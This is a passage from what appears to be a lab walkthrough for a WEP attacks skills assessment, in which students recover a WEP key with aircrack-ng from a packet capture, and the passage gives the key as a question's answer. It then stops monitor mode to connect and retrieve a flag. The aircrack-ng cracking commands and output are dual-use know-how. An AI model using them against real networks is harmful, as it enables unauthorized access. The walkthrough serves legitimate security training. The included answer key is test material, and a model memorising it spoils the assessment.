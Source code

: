 After a while, students will terminate both processes (`airplay-ng` and `airodump-ng`) with the key combination of `CTRL + C`. Subsequently, they will use `aircrack-ng` along with the access point's MAC address and the packet capture `Student-01.cap` to retrieve the key:

Code: shell

```shell
aircrack-ng -b B2:A6:3D:EB:23:A3 Student-01.cap
```

```
wifi@WiFiIntro:~$ aircrack-ng -b B2:A6:3D:EB:23:A3 Student-01.cap

Reading packets, please wait...
Opening Student-01.cap
Read 468162 packets.

1 potential targets      Got 156023 out of 155000 IVsStarting PTW attack with 156023 ivs.
                     KEY FOUND! [ {hidden} ] 
	Decrypted correctly: 100%
```

Answer: `1B:2A:5A:4C:6A`

# Wired Equivalent Privacy Attacks - Skills Assessment

## Question 3

### "Connect to the WiFi network using the found key and retrieve the flag from 192.168.1.1."

Students will proceed disabling the `wlan0mon` interface using `airmon-ng`:

Code: shell

```shell
sudo airmon-ng stop wlan0mon
```

```
wifi@WiFiIntro:~$ sudo airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy1	wlan0mon	htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 station mode vif enabled on [phy1]wlan0)

		(mac80211 monitor mode vif disabled for [phy1]wlan0mon)
```

Next, students will use the obtained key and remove the semicolons:

Code: shell

```shell
echo '1B:2A:5A:4C:6A' | tr -d ":"
```
